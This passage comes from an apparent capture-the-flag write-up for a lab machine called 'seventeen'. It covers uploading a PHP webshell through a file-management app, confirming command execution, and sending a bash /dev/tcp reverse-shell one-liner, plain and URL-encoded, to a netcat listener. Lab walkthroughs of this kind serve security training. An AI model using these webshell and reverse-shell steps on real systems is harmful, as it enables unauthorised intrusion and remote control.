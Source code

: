 navigating to http://mastermailer.seventeen.htb we are redirected to http://mastermailer.seventeen.htb:8000/mastermailer/

even with the Kelly credentials we found earlier cannot use this, we get an error

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529175942.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529175942.png){:.glightbox}

with some more enumeration on this vhost, we see it hosts the same file management application as the main domain at http://mastermailer.seventeen.htb:8000/oldmanagement/

using the same sql injection (or simply Kelly's credentials) we login and try the file upload functionality at http://mastermailer.seventeen.htb:8000/oldmanagement/student_profile.php, and luckily this time it is successful. We upload a simple php webshell to confirm

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529182808.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529182808.png){:.glightbox}

now to check for remote code execution we access our webshell at http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=id

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529182957.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529182957.png){:.glightbox}

now we can submit a reverse shell, I frequently have success with this basic reverse shell: 
```bash
bash -i >& /dev/tcp/10.10.14.73/13897 0>&1
```

I stand up a listener with netcat ( `nc -lvnp 13897`), url encode the payload using cyberchef, and submit it at my webshell  http://mastermailer.seventeen.htb:8000/oldmanagement/files/31234/simple.php?gg=bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E73%2F13897%200%3E%261

we don't get a callback,at this point I tried various reverse shell payloads trying to find one that would work successfully, when I remembered from enumeration

```
Service Info: Host: 172.17.0.4; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

this means we are likely getting RCE on a docker container so the options we have for reverse shells are more narrow.
